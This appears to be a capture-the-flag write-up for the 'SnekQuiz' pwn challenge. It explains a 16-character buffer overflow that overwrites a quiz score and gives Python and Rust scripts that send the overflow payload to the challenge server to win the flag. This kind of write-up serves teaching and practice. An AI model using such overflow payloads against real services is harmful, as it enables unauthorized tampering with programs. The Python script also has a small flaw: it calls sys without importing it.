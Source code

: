 
### SnekQuiz - [pwn] - 200pts
As with each pwning challenge, the first step is to understand how the program works, what input it takes, what output it produces, and see if there are any values that will produce unexpected output.

![](images/test_run_1.png)


Ok, so lets see what happens when we provide the correct answers to the questions.

![](images/test_run_2.png)


Great! We get some points. But we run into a bit of a problem, we need to get 5 points and we are only asked 3 questions :( oh no!!

Ok, lets try running the program one time, but with some strange values and see what we get.

![](images/run_3.png)


Ha! Thats strange, where `10` coming from?  Well it seems we have a buffer of 16 characters to work with, anything past that causes on overflow which modified the score.  So, can we write some value which will change the score to 5 and give us the flag?  Lets find out!


I wrote a quick Python script which will send our exploit string to the server.

```python
import socket
import time


# setup the socket stuff
try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
except socket.error as e:
    print "[!] Failed to initiate socket\n"
    sys.exit()
else:
    print "[+] Socket successfully created\n"

    # connect to the socket
    HOST = "challenge.uiuc.tf"
    PORT = 11343
    sock.connect((HOST, PORT))



# run the exploit
while True:
    output = sock.recv(1024)
    if output == None or output == "":
        break
    else:
        sock.send("aaaaaaaaaaaaaaaa\x05")
        print output

```
</br>

And voila!

![](images/the_flag.png)


#### Side Note
I had a bit of time on my hands, so I also wrote the same exploit in `Rust` because why not.

```rust
extern crate bufstream;
use std::net::TcpStream;
use bufstream::BufStream;

// Traits
use std::io::BufRead;
use std::io::Write;


fn main() {
    if let Ok(stream) = TcpStream::connect("challenge.uiuc.tf:11343") {
        let mut buffer = BufStream::new(stream);
        loop {
            let mut output = String::new();
            if output == " " {
                break;
            } else {
                buffer.read_line(&mut output).unwrap();
                buffer.write_all(b"aaaaaaaaaaaaaaaa\x05").unwrap();
                buffer.flush().unwrap();
                print!("{}", output);
            }
        }
    } else {
        println!("[!] Unable to connect!");
    }
}
```

![](images/rust_exploit.png)
